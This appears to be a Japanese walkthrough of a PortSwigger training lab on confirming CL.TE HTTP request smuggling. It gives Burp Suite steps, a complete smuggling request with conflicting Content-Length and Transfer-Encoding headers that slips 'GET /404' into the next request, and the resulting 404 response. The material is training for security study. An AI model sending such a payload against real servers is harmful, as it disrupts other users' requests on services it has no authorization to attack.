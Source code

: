 # HTTP リクエストの密輸、差分応答による CL.TE の脆弱性の確認

次のハッキングラボを実施  
https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses  
このラボにはフロントエンドサーバーとバックエンドサーバーが含まれますが、フロントエンドサーバーはチャンクエンコーディングをサポートしていません。

1.  Burp Suite を起動して、proxy タブからブラウザを立ち上げます

- 2. ブラウザからハッキングラボにアクセスします

* 3. GET / リクエストを send to repeater します
* 4. Repeater のリクエストを表示した状態で右クリックして change to request を選択して、POST リクエストに切り替えます

- 5. リクエストを以下のように書き換えて 2 回送信します

```
POST / HTTP/1.1
Host: 0afc005503a8116c8066df9400e0006a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

2 回目のレスポンスが 404 になります

```
HTTP/1.1 404 Not Found
Content-Type: application/json; charset=utf-8
Set-Cookie: session=HCbscveVls6K8xYB7NmNegO6P2elPOu9; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Connection: close
Content-Length: 11

"Not Found"
```

チャンクサイズが 0 と判断され、GET /404 が 2 個目のリクエストとして扱われているので、このような動作になる
